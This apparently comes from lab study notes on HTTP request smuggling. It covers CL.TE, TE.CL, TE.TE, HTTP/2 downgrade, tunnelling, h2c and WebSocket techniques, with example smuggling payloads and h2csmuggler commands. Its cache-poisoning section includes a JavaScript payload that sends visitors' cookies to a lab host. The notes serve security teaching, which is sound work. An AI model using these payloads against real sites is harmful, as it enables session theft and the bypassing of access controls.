

# HTTP Request Smuggling

## HTTP/1.1 Request Smuggling

### intro

**HTTP Request Smuggling** is a vulnerability that arises when there are mismatches in different web infrastructure components. This includes proxies, load balancers, and servers that interpret the boundaries of [HTTP](../common.md#http) requests. For example, consider a train station where tickets are checked at multiple points before boarding. If each checkpoint has different criteria for a valid ticket, a traveller could exploit these inconsistencies to board a train without a valid ticket. Similarly, in web requests, this vulnerability mainly involves the `Content-Length` and `Transfer-Encoding` headers, which indicate the end of a request body. When these headers are manipulated or interpreted inconsistently across components, it may result in one request being mixed with another.


Request splitting or HTTP desync attacks are possible because of the nature of keep-alive connections and HTTP pipelining, which allow multiple requests to be sent over the same TCP connection. Without these mechanisms, request smuggling wouldn't be feasible. When calculating the sizes for Content-Length (CL) and Transfer-Encoding (TE), it's crucial to consider the presence of carriage return `\r` and newline `\n` characters. These characters are not only part of the HTTP protocol's formatting but also impact the calculation of content sizes.

While testing for request smuggling vulnerabilities, it's important to note that some tools might automatically "fix" the Content-Length header by default. This means if you're using such tools to run payloads, your Content-Length values might get overwritten, potentially changing the test results.

**Note** that testing for request smuggling can potentially break a website in many ways (cache poisoning, other user requests may start failing, or even the back-end pipeline might get fully desynced), so extreme care should be taken when testing this on a production website.

<span style="font-size: 23px;">**Objectives**</span>

1. Understand what HTTP Request Smuggling is and its impact.
2. Identify HTTP Request Smuggling vulnerabilities in web applications.
3. Exploit these vulnerabilities in a controlled environment.
4. Understand and apply measures to mitigate and prevent these vulnerabilities.

<span style="font-size: 23px;">**Importance of Understanding HTTP Request Smuggling**</span>

1. Smuggled requests might evade security mechanisms like Web Application Firewalls. This potentially leads to unauthorized access or data leaks.
2. Attackers can poison web caches by smuggling malicious content, causing users to see incorrect or harmful data.
3. Smuggled requests can be chained to exploit other vulnerabilities in the system, amplifying the potential damage.
4. Due to the intricate nature of this vulnerability, it can often go undetected, making it crucial for security professionals to understand and mitigate it.

### Modern Infrastructure

<span style="font-size: 23px;">**Components of Modern Web Applications**</span>

Modern web applications are no longer straightforward, monolithic structures. They are composed of different components that work with each other. Below are some of the components that a modern web application usually consists of:

1. **Front-end server**: This is usually the reverse proxy or load balancer that forwards the requests to the back-end.
2. **Back-end server**: This server-side component processes user requests, interacts with databases, and serves data to the front-end. It's often developed using languages like PHP, Python, and Javascript and frameworks like Laravel, Django, or Node.js.
3. **Databases**: Persistent storage systems where application data is stored. Examples of this are databases like MySQL, PostgreSQL, and NoSQL.
4. **APIs (Application Programming Interfaces)**: Interfaces allow the front and back-end to communicate and integrate with other services.
5. **Microservices**: Instead of a single monolithic back-end, many modern applications use microservices, which are small, independent services that communicate over a network, often using HTTP/REST or gRPC.

<span style="font-size: 23px;">**Load Balancers and Reverse Proxies**</span>

1. **Load Balancers**: These devices or services distribute incoming network traffic across multiple servers to ensure no single server is overwhelmed with too much traffic. This distribution ensures high availability and reliability by redirecting requests only to online servers that can handle them. Load balancing for web servers is often done by reverse proxies. Examples include AWS Elastic Load Balancing, HAProxy, and F5 BIG-IP.
2. **Reverse Proxies**: A reverse proxy sits before one or more web servers and forwards client requests to the appropriate web server. While they can also perform load balancing, their primary purpose is to provide a single access point and control for back-end servers. Examples include NGINX, Apache with mod_proxy, and Varnish.


<span style="font-size: 23px;">**Role of Caching Mechanisms**</span>

Caching is a technique used to store and reuse previously fetched data or computed results to speed up subsequent requests and computations. In the context of web infrastructure:

1. **Content Caching**: By storing web content that doesn't change frequently (like images, CSS, and JS files), caching mechanisms can reduce the load on web servers and speed up content delivery to users.
2. **Database Query Caching**: Databases can cache the results of frequent queries, reducing the time and resources needed to fetch the same data repeatedly.
3. **Full-page Caching**: Entire web pages can be cached, so they don't need to be regenerated for each user. This is especially useful for websites with high traffic.
4. **Edge Caching/CDNs**: Content Delivery Networks (CDNs) cache content closer to the users (at the "edge" of the network), reducing latency and speeding up access for users around the world.
5. **API Caching**: Caching the responses can significantly reduce back-end processing for APIs that serve similar requests repeatedly.


Caching, when implemented correctly, can significantly enhance the performance and responsiveness of web applications. However, managing caches properly is essential to avoid serving stale or outdated content.

---

### Behind the Scenes

<span style="font-size: 23px;">**Understanding HTTP Request Structure**</span>

Every [HTTP](../cyber/WebApplication.md#http-request) request comprises two main parts: the header and the body.


1. **Request Line**: The first line of the request `POST /admin/login HTTP/1.1` is the request line. It consists of at least three items. First is the method, which in this case is "POST". The method is a one-word command that tells the server what to do with the resource. Second is the path component of the URL for the request. The path identifies the resource on the server, which in this case is "/admin/login". Lastly, the HTTP version number shows the HTTP specification to which the client has tried to make the message comply. Note that HTTP/2 and HTTP/1.1 have different structures.
2. **Request Headers**: This section contains metadata about the request, such as the type of content being sent, the desired response format, and authentication tokens. It's like the envelope of a letter, providing information about the sender, receiver, and the nature of the content inside.
3. **Message Body**: This is the actual content of the request. The body might be empty for a GET request, but for a POST request, it could contain form data, [JSON](../common.md#json) payloads, or file uploads.

<span style="font-size: 23px;">**Content-Length Header**</span>

The `Content-Length` header indicates the request or response body size in bytes. It informs the receiving server how much data to expect, ensuring the entire content is received.

```bash
POST /submit HTTP/1.1
Host: good.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
    
q=smuggledData
```
This means that the request or response body contains 14 bytes of data.

<span style="font-size: 23px;">**Transfer-Encoding Header**</span>

The `Transfer-Encoding` header is used to specify the form of encoding applied to the message body of an HTTP request or response. A commonly used value for this header is "chunked", indicating that the message body is divided into a series of chunks, each preceded by its size in hexadecimal format. Other possible values for the Transfer-Encoding header include "compress", "deflate", and "gzip", each indicating a different type of encoding. For example:

```bash
POST /submit HTTP/1.1
Host: good.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
    
b
q=smuggledData 
0
```
In this example, "b" (in hexadecimal, equivalent to 11 in decimal) specifies the size of the following chunk. The chunk `q=smuggledData` is the actual data, followed by a new line. The request is terminated with a "0" line, indicating the end of the message body. Each chunk size is given in hexadecimal format, and the end of the chunked body is signified by a chunk of size 0.

<span style="font-size: 23px;">**How Headers Affect Request Processing**</span>

Headers play an important role in guiding the server to process the request. This is because they determine how to parse the request body and influence caching behaviours. They can also affect authentication, redirection, and other server responses.


Manipulating headers like Content-Length and Transfer-Encoding can create vulnerabilities. For instance, if a proxy server gets confused by these headers, it might not properly distinguish where one request ends and another starts.

<span style="font-size: 23px;">**HTTP Request Smuggling Origin**</span>

HTTP Request Smuggling primarily occurs due to discrepancies in how different servers (like a front-end server and a back-end server) interpret HTTP request boundaries. For example:

1. If both Content-Length and Transfer-Encoding headers are present, ambiguities can arise.
2. Some components prioritize Content-Length, while others prioritize Transfer-Encoding.
3. This discrepancy can lead to one component believing the request has ended while another thinks it's still ongoing, leading to smuggling.

**Example:** Suppose a front-end server uses the Content-Length header to determine the end of a request while a back-end server uses the Transfer-Encoding header. An attacker can craft a request that appears to have one boundary to the front-end server but a different boundary to the back-end server. This can lead to one request being "smuggled" inside another, causing unexpected behaviour and potential vulnerabilities.

---

### Request Smuggling CL.TE

<span style="font-size: 23px;">**Introduction to CL.TE request smuggling**</span>

**CL.TE** stands for **Content-Length/Transfer-Encoding**. The name **CL.TE** comes from the two headers involved: **Content-Length** and **Transfer-Encoding**. In CL.TE technique, the attacker exploits discrepancies between how different servers (typically a front-end and a back-end server) prioritize these headers. For example:

- The proxy uses the Content-Length header to determine the end of a request.
- The back-end server uses the Transfer-Encoding header.


Because of this discrepancy, it's possible to craft ambiguous requests that are interpreted differently by each server. For example, Imagine sending a request with both `Content-Length` and `Transfer-Encoding` headers. The front-end server might use the Content-Length header and think the request ends at a certain point due to the provided number of bytes. In contrast, the back-end server, relying on the Transfer-Encoding header, might interpret the request differently, leading to unexpected behaviour.

<span style="font-size: 23px;">**Exploiting CL.TE for Request Smuggling**</span>

To exploit the CL.TE technique, an attacker crafts a request that includes both headers, ensuring that the front-end and back-end servers interpret the request boundaries differently. For example, an attacker sends a request like:

```bash
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```
Here, the front-end server sees the `Content-Length` of 130 bytes and believes the request ends after  `isadmin=true`. However, the back-end server sees the `Transfer-Encoding: chunked` and interprets the `0` as the end of a chunk, making the second request the start of a new chunk. This can lead to the back-end server treating the `POST /update HTTP/1.1` as a separate, new request, potentially giving the attacker unauthorized access.

<span style="font-size: 23px;">**Incorrect Content-Length**</span>

When creating a request smuggling payload, if the `Content-Length` is not equal to the actual length of the content, several problems might arise. First, the server might process only the portion of the request body that matches the `Content-Length`. This could result in the smuggled part of the request being ignored or not processed as intended. For example, in the below screenshot, the original size of the body is 24 bytes.


To verify that the Content-Length is valid, we can check the `/submissions` directory to verify if the whole body was saved in the .txt file.


Since the size of the body `username=test&query=test` is 24 bytes, sending a Content-Length with a size lower than this will instruct the back-end server to interpret the request body differently. For example, when the Content-Length is set to less than the actual size of the body `username=test&query=test` (which is 24 bytes), the back-end server will only read part of the request body based on the specified Content-Length. For instance, setting Content-Length to 10 bytes means the server will only consider the first 10 bytes of the body, leading to incomplete data being processed.


---

### Request Smuggling TE.CL

<span style="font-size: 23px;">**Introduction to TE.CL Technique**</span>

**TE.CL** stands for **Transfer-Encoding/Content-Length**. This technique is the opposite of the CL.TE method. In the TE.CL approach, the discrepancy in header interpretation is flipped because the front-end server uses the Transfer-Encoding header to determine the end of a request, and the back-end server uses the Content-Length header.

The TE.CL technique arises when the proxy prioritizes the `Transfer-Encoding` header while the back-end server prioritizes the `Content-Length` header.


**Example:** If an attacker sends a request with both headers, the front-end server or proxy might interpret the request based on the `Transfer-Encoding` header, while the back-end server might rely on the `Content-Length` header. This difference in interpretation might interpret the request differently, leading to unexpected behaviour.

<span style="font-size: 23px;">**Exploiting TE.CL for Request Smuggling**</span>

To exploit the TE.CL technique, an attacker crafts a specially designed request that includes both the **Transfer-Encoding** and **Content-Length** headers, aiming to create ambiguity in how the front-end and back-end servers interpret the request.

For example, an attacker sends a request like:

```bash
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```
In the above payload, the front-end server sees the `Transfer-Encoding: chunked` header and processes the request as chunked. The `78` (hexadecimal for 120) indicates that the next 120 bytes are part of the current request's body. The front-end server considers everything up to the `0` (indicating the end of the chunked message) as part of the body of the first request.

The back-end server, however, uses the Content-Length header, which is set to 4. It processes only the first 4 bytes of the request, not including the entire smuggled request `POST /update`. The remaining part of the request, starting from **POST /update**, is then interpreted by the back-end server as a separate, new request.

The smuggled request is processed by the back-end server as if it were a legitimate, separate request. This request includes the `isadmin=true` parameter, which could potentially elevate the attacker's privileges or alter data on the server, depending on the application's functionality.

---

### Transfer Encoding Obfuscation

<span style="font-size: 23px;">**Introduction to TE.TE Technique**</span>

**Transfer Encoding Obfuscation**, also known as **TE.TE** stands for **Transfer-Encoding/Transfer-Encoding**. Unlike the CL.TE or TE.CL methods, the TE.TE technique arises when both the front-end and the back-end servers use the Transfer-Encoding header. In TE.TE technique, the attacker takes advantage of the servers' inconsistent handling of  Transfer-Encoding present in the HTTP headers.

The TE.TE vulnerability doesn't always require multiple Transfer-Encoding headers. Instead, it often involves a single, malformed Transfer-Encoding header that is interpreted differently by the front-end and back-end servers. In some cases, the front-end server might ignore or strip out the malformed part of the header and process the request normally, while the back-end server might interpret the request differently due to the malformed header, leading to request smuggling.


**Example:** An attacker manipulates the Transfer-Encoding header by including "chunked" in malformed variations. This is done to exploit how front-end and back-end servers prioritize the Transfer-Encoding (TE) header over Content-Length (CL). By crafting malformed Transfer-Encoding headers, the attacker aims to make one server ignore the TE header and use CL instead, leading to a discrepancy in how the request boundaries are interpreted between the front-end and back-end servers. This manipulation can result in either a CL.TE or TE.CL situation, depending on which server falls back to using the Content-Length.

<span style="font-size: 23px;">**Exploiting TE.TE for Request Smuggling**</span>

To exploit the TE.TE technique, an attacker may craft a request that includes Transfer-Encoding headers that use different encodings. For example, an attacker sends a request like:

```bash
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
In the above payload, the front-end server encounters two `Transfer-Encoding` headers. The first one is a standard chunked encoding, but the second one, `chunked1`, is non-standard. Depending on its configuration, the front-end server might process the request based on the first `Transfer-Encoding: chunked` header and ignore the malformed `chunked1`, interpreting the entire request up to the `0` as a single chunked message.

The back-end server, however, might handle the malformed `Transfer-Encoding: chunked1` differently. It could either reject the malformed part and process the request similarly to the front-end server or interpret the request differently due to the presence of the non-standard header. If it processes only the first 4 bytes as indicated by the `Content-length: 4`, the remaining part of the request starting from `POST /update` is then treated as a separate, new request.

The smuggled request with the `isadmin=true` parameter is processed by the back-end server as if it were a legitimate, separate request. This could lead to unauthorized actions or data modifications, depending on the server's functionality and the nature of the /update endpoint.

## HTTP/2 Request Smuggling

### HTTP/2 Explained

<span style="font-size: 23px;">**HTTP/2**</span>

The second version of the HTTP protocol proposes several changes over the original HTTP specifications. The new protocol intends to overcome the problems inherent to HTTP/1.1 by changing the message format and how the client and server communicate. One of the significant differences is that HTTP/2 requests and responses use a completely binary protocol, unlike HTTP/1.1, which is humanly readable. This is a massive improvement over the older version since it allows any binary information to be sent in a way that is easier for machines to parse without making mistakes.

While the HTTP/2 binary format is difficult to read for humans, we will use a simplified representation of requests throughout the room. Here's a visual representation of HTTP/2 requests compared with an HTTP/1.1 request:



The HTTP/2 request has the following components:

- **Pseudo-headers**: HTTP/2 defines some headers that start with a colon `:`. Those headers are the minimum required for a valid HTTP/2 request. In our image above, we can see the `:method`, `:path`, `:scheme` and `:authority` pseudo-headers.
- **Headers**: After the pseudo-headers, we have regular headers like `user-agent` and `content-length`. Note that HTTP/2 uses lowercase for header names.
- **Request Body**: Like in HTTP/1.1, this contains any additional information sent with the request, like POST parameters, uploaded files and other data.

Another important change in the structure of a request that may not be obvious is that HTTP/2 establishes precise boundaries for each part of a request or response. Instead of depending on specific characters like `\r\n` to separate different headers or `:` to separate the header name from the header value like HTTP/1, HTTP/2 adds fields to track the size of each part of a request (or response). More on this later.

<span style="font-size: 23px;">**Request Smuggling and HTTP/2**</span>

One of the main reasons HTTP request smuggling is possible in HTTP/1 scenarios is the existence of several ways to define the size of a request body. This ambiguity in the protocol leads to different proxies having their own interpretation of where a request ends and the next one begins, ultimately ending in request smuggling scenarios.

The second version of the HTTP protocol was built to improve on many of the characteristics of the first version. The one we most notably care about in the context of HTTP request smuggling is the clear definition of sizes for each component of an HTTP request. To avoid the ambiguities in HTTP/1, HTTP/2 prefixes each request component with a field that contains its size. For example, each header is prefixed with its size, so parsers know precisely how much information to expect. To understand this better, let's take a look at a captured request in Wireshark, looking specifically at the request headers:


In the image, we are looking at the `:method` pseudo-header. As we can see, both the header name and value are prefixed with their corresponding lengths. The header name has a length of 7, corresponding to `:method` and the header value has a length of 3, corresponding to the string `GET`.

The request's body also includes a length indicator, rendering headers like `Content-Length` and `Transfer-Encoding: chunked` meaningless in pure HTTP/2 environments.

**Note:** Even though `Content-Length` headers aren't directly used by HTTP/2, modern browsers will still include them for a specific scenario where HTTP downgrades may occur. This is very important for our specific scenario and we will discuss it in more detail in the following tasks.

With such clear boundaries for each part of a request, one would expect request smuggling to be impossible, and to a certain extent, it is in implementations that rely solely on HTTP/2. However, as with any new protocol version, not all devices can be upgraded to it directly. This results in implementations of load balancers or reverse proxies that support HTTP/2, serving content from server farms that still use HTTP/1.

---

### HTTP/2 Desync

<span style="font-size: 23px;">**HTTP/2 Downgrading**</span>

When a reverse proxy serves content to the end user with HTTP/2 (frontend connection) but requests it from the backend servers by using HTTP/1.1 (backend connection), we talk about **HTTP/2 downgrading**. This type of implementation is still common nowadays, making it possible to reintroduce HTTP request smuggling in the context of HTTP/2, but only where downgrades to HTTP/1.1 occur.


Instead of dealing directly with HTTP/2, we send HTTP/2 requests in the frontend connection to influence the corresponding HTTP/1.1 request generated in the backend connection so that it causes an HTTP desync condition. 

Ideally, the proxy should safely convert a single HTTP/2 request to a single HTTP/1.1 equivalent. This is only sometimes true in practice. Each proxy implementation may handle the conversion slightly differently, making introducing a malicious HTTP/1.1 request in the backend connection possible, leading to any of the typical cases of HTTP desync.

<span style="font-size: 23px;">**The Expected Behaviour**</span>

Before getting into request smuggling, let's understand how a request would be translated from HTTP/2 to HTTP/1.1. Take the following POST request as an example:


The process is straightforward. The headers and the body from the HTTP/2 request are directly passed into the HTTP/1.1 request. Notice that the HTTP/2 request includes a `content-length` header. Remember that HTTP/2 doesn't use such a header, but HTTP/1.1 requires one to delimit the request body correctly, so any decent browser will include content-length in HTTP/2 requests to preemptively deal with HTTP downgrades. In the case of the proxies we will be using, the `Host` header is added after all the other headers based on the content of the `:authority` pseudo-header. Other proxy implementations may have the host header appear before the rest of custom headers.

<span style="font-size: 23px;">**H2.CL**</span>

As mentioned before, the Content-Length header has no meaning for HTTP/2, since the length of the request body is specified unambiguously. But nothing stops us from adding a Content-Length header to an HTTP/2 request. If HTTP downgrades occur, the proxy will pass the added `content-length` header from HTTP/2 to the HTTP/1.1 connection, enabling a desync. To better understand this, consider what would happen with the following HTTP/2 request:



The proxy receives the HTTP/2 request on the frontend connection. When translating the request to HTTP/1.1, it simply passes the `Content-Length` header to the backend connection. When the backend web server reads the request, it acknowledges the injected `Content-Length` as valid. Since the injected `Content-Length` in our example is 0, the backend is tricked into believing this is a POST request without a body. Whatever comes after the headers (the original body of the HTTP/2 request) will be interpreted as the start of a new request. Since the word `HELLO` is not a complete HTTP/1.1 request, the backend server will wait until more data arrives to complete it.

The backend connection is now desynced. If another user sends a request, it will be concatenated to the `HELLO` value lingering in the backend connection. If, for example, another user makes a request right after, this is what would happen:



Note how the request line of the following request gets merged with the lingering HELLO. This effectively alters the request of the victim user, which can be abused by the attacker in many ways we'll cover later.

<span style="font-size: 23px;">**H2.TE**</span>

We can also add a "`Transfer-Encoding: chunked`" header to the frontend HTTP/2 request, and the proxy might also pass it to the backend HTTP/1.1 connection untouched. If the backend web server prioritises this header to determine the request body size, we can desync the backend connection once again. Here's how our HTTP/2 request would look:



The effect would be the same as with the H2.CL case. The first request is now a chunked request. The first chunk is of size 0, so the backend believes that's where it ends. The rest of the HTTP/2 request body will poison the backend connection, affecting the next upcoming request.

<span style="font-size: 23px;">**CRLF injection**</span>

**CRLF** is the shorthand notation for a newline. **CR** stands for **Carriage Return**, equivalent to the character with ASCII code point `0xD`, also represented as the `\r` character. **LF** stands for **Line Feed**, the ASCII character with code point `0xA`, often represented as `\n`. CRLF is simply the sequence of both those characters `\r\n`, one after the other, and is used in HTTP/1.1 as a delimiter between headers, and also to separate the headers from the body (by using a double `\r\n`).

Since HTTP/2 packets can handle binary information, inserting any character in any request field is possible. This poses a problem when translating requests to HTTP/1.1, as some characters like `\r\n` represent delimiters between headers. If we can inject `\r\n` in an HTTP/2 header, it might get translated by the proxy into HTTP/1.1 directly, which will be interpreted as a header separator, thus allowing us to smuggle requests.

To understand this, look at what would happen if we send the following HTTP/2 request:


The resulting HTTP/1.1 request now has an additional header. Note that we aren't limited to injecting headers, but we can also smuggle entire requests in this way:

CRLF injection is not restricted to HTTP/2 headers only. Any place where you send a `\r\n` that potentially ends up in the HTTP/1.1 request could potentially achieve the same results. Note that each proxy will try to sanitise the requests differently, so your mileage may vary depending on your target.

---

### HTTP/2 Request Tunneling

<span style="font-size: 23px;">**Request Tunneling vs Desync**</span>

So far, the attack vectors we have looked at depend on the backend server to reuse a single HTTP connection to serve all users. In certain proxy implementations, each user will get its own backend connection to separate their request from others. Whenever this happens, an attacker won't be able to influence the requests of other users. At first sight, it would appear that we can't do much if confined to our own connection, but we can still smuggle requests through the frontend proxy and achieve some results. Since we can only smuggle requests to our connection, this scenario is often called request tunnelling.


we will use an old version of HAProxy, vulnerable to [CVE-2019-19330](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19330) as our frontend proxy

<span style="font-size: 23px;">**Leaking Internal Headers**</span>

The simplest way to abuse request tunnelling is to get some information on how the backend requests look. In some scenarios, the frontend proxies may add headers to the requests before sending them to the backend. If we want to smuggle a specific request to the backend, we may need to add such headers for the request to go through.

Notice the existence of a `content-length` header despite being ignored by HTTP/2. Most browsers will add this header to all HTTP/2 requests so that the backend will still receive a valid `Content-Length` header if an HTTP downgrade occurs. In the backend, the request would be converted into HTTP/1.1. This particular proxy will insert the `Host:` header after the headers sent by the client (right after content-length). If needed, the proxy could also add any additional headers (represented as X-Internal in the image). The final backend request would look like this:


We will take advantage of the vulnerability in HAProxy that allows us to inject CRLFs via headers to leak the backend headers successfully. We will add a custom Foo header and send our attack payload through it. This is how our request would look:


There's quite a bit to unpack here:

- This will be a normal request for the frontend since HTTP/2 doesn't care about binary information in its headers.
- The `Content-Length: 0` header injected through the Foo header will make the backend think the first POST request has no body. Whatever comes after the headers will be interpreted as a second request.
- Since the `Host` header and any other internal headers are inserted by the proxy after `Foo`, the first POST request will have no `Host` header unless we provide one. This is why we injected a `Host` header for the first request. This is required, as the HTTP/1.1 specification requires a `Host` header for each request.
- The second POST request will trigger a search on the website. Notice how the internal headers are now part of the `q` parameter in the body of the request. This will cause the website to reflect the headers back to us.
- The second POST request we have injected has a `Content-Length: 300`. This number is just an initial guess of how much space we will require for the Internal headers. You will need to play a bit with it until you get the right answer. If it's set too high, the connection will hang as the backend waits for that many bytes to be transferred. If you set it too low, you may only get a part of the internal headers.


<span style="font-size: 23px;">**Bypassing Frontend Restrictions**</span>

In some scenarios, you will find that the frontend proxy enforces restrictions on what resources can be accessed on the backend website. For example, imagine your website has an admin panel at `/admin`, but you don't want it accessible to everyone on the Internet. As a simple solution, you could enforce a restriction in the frontend proxy to disallow any attempt to access `/admin` without requiring any changes in the backend server itself.

A request tunnelling vulnerability would allow us to smuggle a request to the backend without the frontend proxy noticing, effectively bypassing frontend security controls. Consider the following HTTP/2 request:


**Note:** We are using a POST request for this scenario. While this is not specifically required for this attack to work, there's a fundamental difference on how GET and POST requests are treated by a proxy. If a proxy implements caching, a GET request may be served from the proxy's cache, so nothing will be forwarded to the backend server and the attack may fail. A POST request, on the other hand, is normally not served from cache, so it is guaranteed that it will be forwarded to the backend.

When the frontend sees this HTTP/2 request, it will interpret it as being directed to `/hello` which is allowed in the [proxy](../common.md#proxy)'s [ACL](../common.md#acl). In the backend, however, the HTTP/2 request gets split in two HTTP/1.1 requests, where the second one points to `/admin`. Notice the second request is purposefully unfinished, so we will need to send the request twice to trigger the response corresponding to `/admin`.

Another way to understand the attack, would be to say that we are using an allowed resource, in this case `/hello`, to smuggle a request to a forbidden resource, in this case `/admin`. From the point of view of the proxy, only a request for `/hello` was made, so no violations to the ACL were made. It is important to note that the resource we request via HTTP/2 must be allowed by the ACL for this attack to work. We are effectively smuggling an invalid request over a valid one. This same method can sometimes be used to smuggle request past Web Application Firewalls (WAF).


<span style="font-size: 23px;">**Web Cache Poisoning**</span>

Even if we can't influence other users' connections directly, we may be able to use request tunnelling to poison server-side caching mechanisms, affecting users indirectly. This kind of attack has a high severity as it impacts all users visiting the website for as long as the cached content lasts. Given the right conditions, the poisoned cached content can have anything the attacker wants, including javascript payloads. This can be used to issue malicious redirects or even steal user sessions.

**Note:** Extreme care needs to be taken when testing web cache poisonings in real-world production systems, as they may affect the availability of the website if not conducted properly.

**payload**

*myjs.js*
```javascript
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "https://10.10.99.225:8002/?c="+document.cookie, true);
xhttp.send();
```
[https](../files/pythonfile.md#https)

**Note** that we included the `Pragma: no-cache` header in our request to force the proxy to bypass any cached content and send the request to the backend server. Doing so allows us to send several requests until our payload is correctly triggered without waiting for the cache to time out.


`curl -kv https://10.10.49.246:8100/static/text.js`


---

### h2c Smuggling

<span style="font-size: 23px;">**HTTP Version Negotiation**</span>

Web servers can offer the client many HTTP protocol versions in a single port. This is useful since you can't guarantee that users will have an HTTP/2-compliant browser. In this way, the server can offer the client both HTTP/1.1 and HTTP/2, and the client can select the version they want to use. This process is known as negotiation and is handled entirely by your browser. 

The original HTTP/2 specification defined two ways to negotiate HTTP/2, depending on whether the communications were encrypted or not. The two methods used the following protocol identifiers:

- **h2**: Protocol used when running HTTP/2 over a TLS-encrypted channel. It relies on the Application Layer Protocol Negotiation ([ALPN](../common.md#alpn)) mechanism of TLS to offer HTTP/2.
- **h2c**: HTTP/2 over cleartext channels. This would be used when encryption is not available. Since ALPN is a feature of TLS, you can't use it in cleartext channels. In this case, the client sends an initial HTTP/1.1 request with a couple of added headers to request an upgrade to HTTP/2. If the server acknowledges the additional headers, the connection is upgraded to HTTP/2.

The h2 protocol is the usual way to implement HTTP/2 since it is considered more secure. In fact, the h2c specification is now regarded as obsolete to the point where most modern browsers don't even support it. Many server implementations, however, still support h2c for compatibility reasons, enabling a different way to smuggle requests.

<span style="font-size: 23px;">**h2c Upgrades**</span>

When negotiating a cleartext HTTP/2 connection, the client will send a regular HTTP/1.1 request with the `Upgrade: h2c` header to let the server know it supports h2c. The request must also include an additional `HTTP2-Settings` header with some negotiation parameters that we won't discuss in detail. A compliant server will accept the upgrade with a `101 Switching Protocols` response. From that point, the connection switches to HTTP/2.


<span style="font-size: 23px;">**Tunneling Requests via h2c Smuggling**</span>

When an HTTP/1.1 connection upgrade is attempted via some reverse proxies, they will directly forward the upgrade headers to the backend server instead of handling it themselves. The backend server will perform the upgrade and manage communications in the new protocol afterwards. The proxy will tunnel any further communications between client and server but won't check their contents anymore, since it assumes the protocol changed to something other than HTTP.


Since connections in HTTP/2 are persistent by default, we should be able to send other HTTP/2 requests, which will now go directly to the backend server through the HTTP/2 tunnel. This technique is known as **h2c smuggling**.

Note that for h2c smuggling to work, the proxy must forward the h2c upgrade to the backend. Some proxies are aware of h2c and could try to handle the connection upgrade themselves. In those cases, we would end up with a frontend connection upgraded to HTTP/2 instead of a direct tunnel to the backend, which wouldn't be of much use.

When facing an h2c-aware proxy, there's still a chance to get h2c smuggling to work under a specific scenario. If the frontend proxy supports HTTP/1.1 over TLS, we can try performing the h2c upgrade over the TLS channel. This is an unusual request, since h2c is defined to work under cleartext channels only. The proxy may just forward the upgrade headers instead of handling the upgrade directly, as it wouldn't make sense to have h2c over an encrypted channel according to the specification.

Note that h2c smuggling only allows for request tunnelling. Poisoning other users' connections won't be possible. But as we have already shown, this could still be abused to bypass restrictions on the frontend or even attempt cache poisoning.

<span style="font-size: 23px;">**Bypassing Frontend Restrictions With h2csmuggler**</span>

[h2csmuggler](https://github.com/BishopFox/h2csmuggler)

`python3 h2csmuggler.py -x https://10.10.49.246:8200/ https://10.10.49.246:8200/private`

---

### omt

There's much more to explore. For more information on the subjects covered in this room, be sure to read the original research in the following links:

- [HTTP/2: The Sequel is Always Worse](https://portswigger.net/research/http2) by James Kettle.
- [h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request) by Jake Miller.

## Request Smuggling: WebSockets

### WebSockets

<span style="font-size: 23px;">**What is a WebSocket?**</span>

When using HTTP, the client must make a request before the server can send any information. This complicates the implementation of some application features that require bidirectional communications. For example, suppose you are implementing a web application that needs to send real-time notifications to the user. Since the server can't push information to the user at will, the client would need to constantly poll the server for notifications, requiring lots of wasted requests.

The WebSocket protocol allows the creation of two-way communication channels between a browser and a server by establishing a long-lasting connection that can be used for full-duplex communications.

<span style="font-size: 23px;">**Upgrading HTTP connections to Websockets**</span>

The WebSocket protocol was designed to be fully compatible with HTTP. Establishing a WebSocket connection follows a process similar to that of h2c. The client sends an initial HTTP request with an `Upgrade: websocket` header and other additional headers. If the server supports WebSockets, it responds with a `101 Switching Protocols` response and upgrades the connection accordingly. From that point onwards, the connection uses the WebSocket protocol instead of HTTP.


If we now add a proxy in the middle, something interesting happens: Instead of fronting the connections themselves, most proxies won't handle the upgrade but will instead relay them to the backend server. Once the connection is upgraded, the proxy will establish a tunnel between the client and server, so any further WebSocket traffic is forwarded without interruptions.


The problem we now face is that the tunnel uses the WebSocket protocol instead of HTTP. If we were to attempt to smuggle an HTTP request using this tunnel, the backend server would reject it as it expects WebSocket requests.

---

### Abusing Websockets for Request Smuggling

<span style="font-size: 23px;">**Smuggling HTTP requests through broken WebSocket Tunnels**</span>

To smuggle requests through a vulnerable proxy, we can create a malformed request such that the proxy thinks a WebSocket upgrade is performed, but the backend server doesn't really upgrade the connection. This will force the proxy into establishing a tunnel between client and server that will go unchecked since it assumes it is now a WebSocket connection, but the backend will still expect HTTP traffic.

One way to force this is to send an upgrade request with an invalid `Sec-Websocket-Version` header. This header is used to specify the version of the WebSocket protocol to use and will normally take the value of `13` in most current WebSocket implementations. If the server supports the requested version, it should issue a `101 Switching Protocols` response and upgrade the connection.

But we aren't interested in upgrading the connection. If we send an unsupported value for the `Sec-Websocket-Version` header, the server will send a `426 Upgrade Required` response to indicate the upgrade was unsuccessful:


Some proxies may assume that the upgrade is always completed, regardless of the server response. This can be abused to smuggle HTTP requests once again by performing the following steps:

